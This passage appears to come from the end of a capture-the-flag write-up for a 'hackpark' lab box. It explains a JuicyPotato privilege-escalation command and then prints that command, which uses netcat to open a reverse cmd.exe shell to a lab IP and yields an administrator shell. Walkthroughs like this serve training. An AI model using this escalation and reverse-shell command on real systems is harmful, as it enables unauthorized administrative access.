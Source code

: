 Here's an explanation of each of the parameters used in the command:

-   `-l 1337`: specifies the local port that the COM server will listen on for incoming connection.
-   `-p c:\windows\system32\cmd.exe`: specifies the program to use for the privilege escalation attack. In this case, it is the cmd.exe command that is located in the Windows system folder.
-   `-a "/c c:\users\public\nc.exe -e cmd.exe 10.14.49.189 443"`: specifies the command to execute when the privilege escalation occurs. In this case, the nc.exe (Netcat) program is being used to establish a reverse connection to a specified remote IP and port.
-   `-t *`: specifies the type of token to use for the attack. The value '*' indicates that any available token with the necessary permissions for privilege escalation will be used.

A COM server is a software component that runs on Windows and provides a programming interface for client programs to communicate with it and use its services. COM servers are an important part of component technology in Windows and are widely used for application integration and development.

```
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\public\nc.exe -e cmd.exe 10.14.49.189 443" -t *
```

 Establish a listening port on our machine and run the command,  receiving a shell as the administrator user obtaining both flags

![15]

![16]

[1]:/assets/images/hackpark/1.png
[2]:/assets/images/hackpark/2.png
[3]:/assets/images/hackpark/3.png
[4]:/assets/images/hackpark/4.png
[5]:/assets/images/hackpark/5.png
[6]:/assets/images/hackpark/6.png
[7]:/assets/images/hackpark/7.png
[8]:/assets/images/hackpark/8.png
[9]:/assets/images/hackpark/9.png
[10]:/assets/images/hackpark/10.png
[11]:/assets/images/hackpark/11.png
[12]:/assets/images/hackpark/12.png
[13]:/assets/images/hackpark/13.png
[14]:/assets/images/hackpark/14.png
[15]:/assets/images/hackpark/15.png
[16]:/assets/images/hackpark/16.png

